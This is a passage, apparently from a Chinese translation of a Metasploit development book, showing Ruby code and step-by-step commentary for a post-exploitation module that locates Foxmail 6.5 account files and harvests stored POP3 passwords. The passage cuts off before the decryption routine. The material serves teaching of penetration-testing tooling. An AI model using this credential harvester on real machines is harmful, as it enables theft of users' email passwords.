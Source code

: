 ```
class MetasploitModule < Msf::Post 
  include Msf::Post::Windows::Registry 
  include Msf::Post::File 
  include Msf::Auxiliary::Report 
  include Msf::Post::Windows::UserProfiles 

  def initialize(info={}) 
    super(update_info(info, 
      'Name'          => 'FoxMail 6.5 Credential Harvester', 
      'Description'   => %q{ 
This Module Finds and Decrypts Stored Foxmail 6.5 Credentials 
      }, 
      'License'       => MSF_LICENSE, 
      'Author'        => ['Nipun Jaswal'], 
      'Platform'      => [ 'win' ], 
      'SessionTypes'  => [ 'meterpreter' ] 
    )) 
  end 
```

非常简单，正如我们在前面的模块中看到的；我们首先包括所有必需的库，并提供有关模块的基本信息。

我们已经看到了`Msf::Post::Windows::Registry`和`Msf::Auxiliary::Report`的用法。让我们看一下本模块中包含的新库的详细信息，如下所示：

| **包含报表** | **路径** | **用法** |
| `Msf::Post::Windows::UserProfiles` | `lib/msf/core/post/windows/user_profiles.rb` | 该库将提供 Windows 系统上的所有配置文件，包括查找重要目录、路径等。 |
| `Msf::Post::File` | `lib/msf/core/post/file.rb` | 该库将提供帮助文件操作的功能，如读取文件、检查目录、列出目录、写入文件等。 |

在理解本模块的下一部分之前，让我们先看看获取凭据需要执行哪些操作：

1.  我们将搜索用户配置文件并找到当前用户`LocalAppData`目录的确切路径。
2.  我们将使用之前找到的路径并将其与`\VirtualStore\Program Files (x86)\Tencent\Foxmail\mail`连接起来，以建立到`mail`目录的完整路径。
3.  我们将列出`mail`目录中的所有目录，并将它们存储在一个数组中。但是，`mail`目录中的目录名将使用各种邮件提供商的用户名命名约定。例如，`nipunjaswal@rocketmail.com`将是`mail`目录中存在的目录之一。
4.  接下来，我们将在`mail`目录下的 accounts 目录中找到`Account.stg`文件。
5.  我们将读取`Account.stg`文件，并找到名为`POP3Password`的常量的哈希值。
6.  我们将把散列值传递给解密方法，该方法将以明文形式查找密码。
7.  我们将把值存储在数据库中。

很简单！让我们分析一下代码：

```
def run 
  profile = grab_user_profiles() 
  counter = 0 
  data_entry = "" 
  profile.each do |user| 
  if user['LocalAppData'] 
  full_path = user['LocalAppData'] 
  full_path = full_path+"\VirtualStore\Program Files (x86)\Tencent\Foxmail\mail" 
  if directory?(full_path) 
  print_good("Fox Mail Installed, Enumerating Mail Accounts") 
  session.fs.dir.foreach(full_path) do |dir_list| 
  if dir_list =~ /@/ 
  counter=counter+1 
  full_path_mail = full_path+ "\" + dir_list + "\" + "Account.stg" 
  if file?(full_path_mail) 
  print_good("Reading Mail Account #{counter}") 
  file_content = read_file(full_path_mail).split("n") 
```
